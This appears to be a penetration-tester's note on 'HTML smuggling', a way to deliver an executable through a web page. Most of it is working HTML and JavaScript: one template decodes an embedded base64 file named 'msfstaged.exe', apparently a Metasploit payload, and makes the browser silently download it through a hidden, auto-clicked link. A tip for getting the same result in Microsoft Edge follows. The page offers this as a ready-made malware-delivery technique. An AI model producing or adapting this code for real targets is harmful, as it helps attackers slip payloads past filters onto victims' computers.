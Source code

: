 ### HTML Smuggling

To make use of the download attribute in HTML5 we can make use of the download attribute anchor tag. Unlikely to use this since this is pretty obvious, but good to be aware of.
```html
<html>
    <body>
      <a href="/payload.exe" download="payload.exe">DownloadMe</a>
   </body>
</html>
```

More likely to be effective is the following embedded Javascript that will translate a base64 payload into an octet stream, load it into memory as a file object, then create the HTML object above, but with the styling configured such that it won't be displayed, then use Javascript to click on the link.
```bash
base64 payload.exe
```
```html
<html>
    <body>
        <script>
            function base64ToArrayBuffer(base64) {
                var binary_string = window.atob(base64);
                var len = binary_string.length;
                var bytes = new Uint8Array( len );
                for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
                return bytes.buffer;
      		}
      		
      		var file ='TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAA...'
      		var data = base64ToArrayBuffer(file);
      		var blob = new Blob([data], {type: 'octet/stream'});
      		var fileName = 'msfstaged.exe';
      		
      		var a = document.createElement('a');
      		document.body.appendChild(a);
      		a.style = 'display: none';
      		var url = window.URL.createObjectURL(blob);
      		a.href = url;
      		a.download = fileName;
      		a.click();
      		window.URL.revokeObjectURL(url);
        </script>
    </body>
</html>
```
Nb. this script will fail against Microsoft Edge browsers since they don't make use of `createObjectURL()`. Instead we'll need to use `window.navigator.msSaveBlob`.